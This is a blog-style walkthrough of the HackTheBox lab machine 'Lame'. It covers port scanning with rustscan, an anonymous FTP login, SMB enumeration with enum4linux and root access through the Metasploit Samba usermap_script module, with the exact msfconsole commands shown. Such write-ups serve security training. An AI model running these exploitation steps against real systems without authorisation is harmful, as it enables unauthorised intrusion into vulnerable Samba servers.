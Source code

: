 # Lame

## Overview

Hello everyone, In this blog we are going to solve Lame from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)

Lets Start 🙌

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

\[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

***

## Reconnaissance

### Rustscan

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.3 -- -A -Pn`

<figure><img src="../.gitbook/assets/Untitled.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 1.png" alt=""><figcaption></figcaption></figure>

### Results

From the results, we got the following ports and services running:

| Port | Service     | Version              |
| ---- | ----------- | -------------------- |
| 21   | FTP         | vsftpd 2.3.4         |
| 22   | SSH         | OpenSSH 4.7p1        |
| 139  | netbios-ssn | Samba smbd 3.X - 4.X |
| 445  | netbios-ssn | Samba smbd 3.X - 4.X |
| 3632 | distccd     | distccd v1           |

***

## Enumerating FTP

First, I started enumerating the FTP service running on Port `21`.

From the scan results, we can see that the Anonymous login is allowed for FTP.

<figure><img src="../.gitbook/assets/Untitled 2.png" alt=""><figcaption></figcaption></figure>

So I tried to login as `Anonymous`

Command: `ftp 10.10.10.3`

username: `Anonymous`

Password: `Anonymous`

<figure><img src="../.gitbook/assets/Untitled 3.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 4.png" alt=""><figcaption></figcaption></figure>

Found nothing in the FTP anonymous Login.

***

## Enumerating SMB

Next I started to enumerate SMB service running on port 139. I used `enum4linux` tool to enumerate.

Command: `enum4linux -a 10.10.10.3`

<figure><img src="../.gitbook/assets/Untitled 5.png" alt=""><figcaption></figcaption></figure>

From the response of `enum4linux`, I didn’t found any interesting shares.

***

## Initial Access

Next, I searched for exploits for the samba version: `Samba smbd 3.X - 4.X` and found the this version is vulnerable to command execution.

{% embed url="https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/" %}

To use the above exploit, execute the commands in `msfconsole` as follows:

`use exploit/multi/samba/usermap_script`

`set RHOSTS 10.10.10.3`

`set LHOST tun0` ( Here tun0 is your hackthebox vpn tunnel IP )

`run`

<figure><img src="../.gitbook/assets/Untitled 6.png" alt=""><figcaption></figcaption></figure>

***

## Getting the User Flag

Now we have got access to the target machine as `root`. I searched for the user flag using the following command:

command: `find / -name user.txt`

<figure><img src="../.gitbook/assets/Untitled 7.png" alt=""><figcaption></figcaption></figure>

And we have found the user flag.

***

## Getting the Root Flag

Now I searched for the root flag using the same method and found the root flag:

<figure><img src="../.gitbook/assets/Untitled 8.png" alt=""><figcaption></figcaption></figure>

We have successfully found all the flags.

Thank You !!!
